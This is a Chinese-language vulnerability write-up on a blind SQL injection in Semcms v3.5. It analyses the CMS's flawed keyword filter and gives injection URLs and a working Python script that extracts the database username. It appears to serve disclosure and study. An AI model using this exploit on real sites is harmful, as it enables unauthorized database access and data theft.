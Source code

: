 ```yaml
---
title: "Semcms v3.5 sql注入漏洞"
id: zhfly3122
---
```


# Semcms v3.5 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Semcms v3.5

## 三、复现过程

### 漏洞分析

在分析过程中看到网上已经有人发现semcms V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码

```
1 <?php
2 include_once  'Include/web_inc.php';
3 include_once  'Templete/default/Include/Function.php';
4 $file_url="";
5 include_once  'Templete/default/Include/default.php';
6 ?> 
```

```
 1 //网站logo
 2 
 3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
 4 
 5 // 控制文字标签 更改 获取的 语种 id
 6 
 7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
 8 
 9 if(!empty($Language)){
10 
11       //网站SEO设定
12 
13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
14       $row=mysqli_fetch_array($query);
15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题 
```

```
 1 // 防sql入注
 2 
 3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';}     //所有GET方式提交的变量都进行防注入检查
 4  
 5 foreach ($GetArray as $value){ //get
 6     
 7     verify_str($value);
 8   
 9 }
10 
11 function inject_check_sql($sql_str) {
12   
13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);    //过滤关键字
14 } 
15 
16 function verify_str($str) { 
17  
18    if(inject_check_sql($str)) {
19    
20        exit('Sorry,You do this is wrong! (.-.)');      //如果出现关键字则提示
21     } 
22  
23     return $str; 
24 } 
```

```
 1 function test_input($data) {                   //防止XSS
 2       $data = str_replace("<script", "", $data);
 3       $data = str_replace("</script>", "", $data);
 4       $data = str_replace("%", "percent", $data);
 5       $data = trim($data);
 6       $data = stripslashes($data);
 7       $data = htmlspecialchars($data,ENT_QUOTES);    //实体编码
 8       return $data;
 9 
10    } 
```

可以看到第16行的函数verify_str()调用inject_check_sql()用来过滤危险字符，函数test_input用来过滤xss。其中可以明显地看到第11行的函数inject_check_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现

```
http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0    显示正常 
```

![image](../img/43751a9c8c27b838ea61c6fe7c1695ae.png)

```
http://0-sec.org/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0    显示错误 
```

![image](../img/89e056cf5e5b9df3d262a3c929bccf43.png)

参考网上已有的fuzz盲注脚本改了下，代码如下

```
#用python3版本
import requests
url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
print("Testing url: " + url)
#十进制数33-126间的ascii hex值
payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
            "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
            "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
            "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
            "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
            "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
            "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
            "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
            "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
            "0x7b","0x7c","0x7d"
           ]
user = ""
for b in range(len(payload)):
    for a in payload:
        #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
        sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
        res = requests.get(url + sql_payload_user).text
        res1 = requests.get(url).text
        if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
            user = user + a
            print(" ")
            print("[*]info : 0x" + user.replace("0x","").upper())
            break
        else:
            print('\r',"Match failed,Next.....",end='') 
```

测试结果如下图

![image](../img/ebd23766886fe6b65c6a9ac64a2c9518.png)

解码ascii hex值0x726F6F74406C6F63616C686F7374为root@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章[blind-sql-injection-burpsuite-like-a-boss(要翻墙)](https://depthsecurity.com/blog/blind-sql-injection-burpsuite-like-a-boss)

## 参考链接

> https://www.cnblogs.com/st404/p/10087191.html